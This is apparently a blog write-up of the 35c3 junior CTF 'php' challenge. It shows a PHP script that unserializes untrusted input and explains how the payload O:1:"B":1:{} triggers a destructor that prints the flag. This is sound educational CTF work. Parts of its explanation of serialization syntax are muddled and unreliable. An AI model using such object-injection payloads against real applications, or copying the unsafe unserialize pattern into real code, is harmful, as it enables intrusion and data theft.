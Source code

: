 ```yaml
---
layout: post
title: "35c3c php challenge write up"
categories: writeup web
---
```


# 35c3c CTF: php
I recently participated in the 35c3c ctf. I have enough time to do a quick write up
and this vulnerability class is intriguing to me.
## First impressions
When first downloading the included file there is a tar archive with one file.
The file is a simple php script (the game ran it on a nc server). Opening up the file I can clearly
see the vaulnarability. Its contents are as follows.

{% highlight php %}
<?php
line = trim(fgets(STDIN));

$flag = file_get_contents('/flag');

class B {
  function __destruct() {
    global $flag;
    echo $flag;
  }
}

$a = @unserialize($line);

throw new Exception('Well that was unexpected…');

echo $a;
?>

{% endhighlight %}

The vulnerability is a deserialization bug. That when done right allows us too get the flag.

## Exploitation
This bug is fairly simple to exploit. Since we have source code that we can modify we can echo out to the screen the serialized string of a instance of `class B`.
We do that by modifying the code to this.
{% highlight php %}
<?php

$line = trim(fgets(STDIN));

$flag = file_get_contents('/flag');

class B {
  function __destruct() {
    global $flag;
    echo $flag;
  }
}
$f = new B();
echo serialize($f);
$a = @unserialize($line);

throw new Exception('Well that was unexpected…');

echo $a;
?>

{% endhighlight %}

We then run `php php.php` and get the serialized string. `O:1:"B":0:{}`. To actually get the program to print the flag
we have to change the `0` in the serialized string too a `1`. After that you run the program and paste in `O:1:"B":1:{}` into stdin.
The program responds with the flag text.

## How this works.
### Magic methods and deserilization bugs
This is a deserilization bug. A deserilization bug occurs when serialized objects are managed incorrectly.
So when the code calls `unserialize()` on a line from stdin it is inherently trusting the user to supply a serialized object.
That is part one of the vulnerability, what makes deserilization bugs dangerous is the second part. Look at `class B`, specifically the `__destruct` method.
`__destruct` is a magic method or a method that is run without being called by the programer. In this case it is called when the object is deleted when the runtime determines that the object is nolonger needed.
By having control over the string that gets passed too `unserialize` we can create a new instance of `class B` and control its inputs.

### Php object serialization syntax
This part is something that you need to have a tiny understading of, but not a large one.
Our exploit for the serialized object is `O:1:"B":1:{}` but the program prints out `O:1:"B":0:{}` when echo out the serialized text.
To put this simply the string starts with an `O` for object then is followed by a `:` which acts a seperator. The number after the separator is the number of arguments that `class B` takes. After that we have a `"B"` which means its a `class B` object. Followed by another seperator and then the "magic" part.
This number is the amount values in `class B`. When we call `serialize` on our instance of `class B` with the changing of `0` to one we cause an error in the `unserialize` function which allows are function to be destructed and print the flag. Note the `@` silences the error thrown by the function.
Thanks to @sk1di3 for pointing this out to me. I had originally thought that it was something about php not recognizing the global variable.
If you want a more indepth explination of php serialization check out [php internals][ref].


[ref]: http://www.phpinternalsbook.com/classes_objects/serialization.html
